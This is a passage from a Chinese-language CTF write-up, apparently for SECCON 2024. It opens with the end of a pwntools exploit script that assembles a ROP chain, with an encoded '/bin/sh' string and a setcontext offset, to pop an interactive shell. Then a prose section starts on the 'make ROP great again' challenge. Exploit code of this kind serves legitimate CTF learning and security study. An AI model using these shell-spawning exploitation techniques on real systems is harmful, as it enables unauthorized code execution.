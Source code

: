 ```py
payload3 += load_and_write_dir(0x200+offset1,0x80)+load_and_write_dir(0x202+offset1,0x82)+load_and_write_dir(0x204+offset1,0x84)

# 写 rdx 为同款地址
payload3 += load_and_write_dir(0x200+offset1,0x200+0x38+offset1)+load_and_write_dir(0x202+offset1,0x202+0x38+offset1)+load_and_write_dir(0x204+offset1,0x204+0x38+offset1)
payload3 += get_instr(0,0x150+offset1+46) # 0xc8*2-0x40
# 长度不够 可能需要 jmp 一下 以下记录为 payload4 0x7f61de84298d 0x00007f61debdc290
payload4 = load_sub_write_qword(8,0x150+24+offset1,0x200+0x20+offset1)
payload4 += load_add_write_qword_heap(0x200+offset1,0x150+28+offset1,0x200+0x78+offset1)
payload4 += load_and_write_dir(0x200+0x78+offset1,0x200+0xa0+offset1)+load_and_write_dir(0x202+0x78+offset1,0x202+0xa0+offset1)+load_and_write_dir(0x204+0x78+offset1,0x204+0xa0+offset1)
# cover ret 0x4aa72
payload4 += load_sub_write_qword(8,0x150+32+offset1,0x200+0xa8+offset1)
# write rop chain 0x7f61de90775b 0x00007f61debdc290 写 pop rdi;ret 的 gadget 不知道会不会有进位问题 但是感觉还行 然后应该是 load_sub_write_qword_heap 才对，， TODO 改一下吧
payload4 += load_and_write_dir(0x200+0xa8+offset1,0x300+offset1)+load_and_write_dir(0x202+0xa8+offset1,0x302+offset1)+load_and_write_dir(0x204+0xa8+offset1,0x304+offset1)
payload4 += load_sub_write_qword(8,0x150+36+offset1,0x300+offset1+8)+load_sub_write_qword_heap(0x80,0x150+40+offset1,0x300+offset1+16)+load_sub_write_qword(8,0x150+20+offset1,0x300+offset1+24)
payload4 += load_sub_write_qword(0x208+offset1,0x150+48+offset1,0x208+offset1)+get_instr(7,0)

# 改 gadget

data = p16(0)+p16(0xfff)+p16(0xffe)+p16(0x4040)+p16(0xf8f8)
data += p16(offset)+p16(0x622f)+p16(0x6e69)+p16(0x732f)+p16(0x68) # 这里是 binshell
data += p16(0xbb50)+p16(0x38)+p16(0x9903)+p16(0x39)+p16(0x100)
data += p16(1)+p16(0x981e)+p16(0x39)+p16(0x4b35)+p16(0x2d) # 这个是 setcontext 的偏移
data += p16(0xa4)+p16(0x4f8f)+p16(68*2)+p16(0x150)+p16(0xd382)
data += p16(0x26)
# gdb.attach(p)
# pause()
# start assemble
payloads = payload+payload3
payloads = payloads.ljust(0x3a,b"\x00")+payload2
payloads = payloads.ljust(0xb8,b"\x00")+payload2_after_jmp
payloads = payloads.ljust(0xC8,b"\x00")+payload4
payloads = payloads.ljust(0x150,b"\x00")+data
payloads = payloads.ljust(0x1000,b"\x00")
p.recvuntil("[+] Done.\n")
p.send(payloads)
p.interactive()
```

## make ROP great again
当时这个题用 gets puts 一通瞎试没搞出来，于是反攻字符串和 free-free_free ，当时有队友 leak 出来了 libc 但是方法比较绕，而且一定会覆盖掉 gets 的 lock 为非 0 值，然后也没想出来方法     
队友 khls 尝试部分写返回值为 one_gadget 本地能出，算出来远程大概是 1/4096 概率出，但是爆破了一个晚上+我爆破了半个晚上也没出，就很奇怪（记得去年 seccon quals 也有题当时远程爆破不出来，，）     
以下是复现的题解，主要参考了 [mmm team 的解法](https://github.com/mmm-team/public-writeups/tree/main/seccon2024/pwn_makeropgreatagain)   
